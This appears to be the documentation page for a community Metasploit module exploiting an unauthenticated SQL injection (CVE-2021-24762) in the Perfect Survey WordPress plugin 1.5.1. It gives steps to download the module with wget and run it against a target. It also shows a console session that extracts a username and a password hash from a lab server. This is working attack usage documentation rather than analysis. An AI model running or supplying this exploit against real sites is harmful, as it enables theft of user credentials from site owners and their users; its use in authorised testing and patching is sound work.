 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Copy the exploit into the specified Metasploit directory:
```sh
wget https://raw.githubusercontent.com/aaryan-11-x/My-Metasploit-Modules/refs/heads/main/CVE-2021-24762%3A%20WordPress%20Plugin%20Perfect%20Survey%201.5.1%20-%20SQLi%20(Unauthenticated)/wp_perfect_survey_sqli.rb -O /usr/share/metasploit-framework/modules/auxiliary/scanner/http/wp_perfect_survey_sqli.rb
```

3. Start `msfconsole`.
4. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
5. Set the target host: `set RHOSTS [ip]`.
6. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
7. Execute the module: `run`.
8. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: aaryan
[+] Extracted Password Hash: $P$BroxbUQTM0N32U7JeMmkXPJrxN9ErZ1
[*] Auxiliary module execution completed
```

#### Video POC
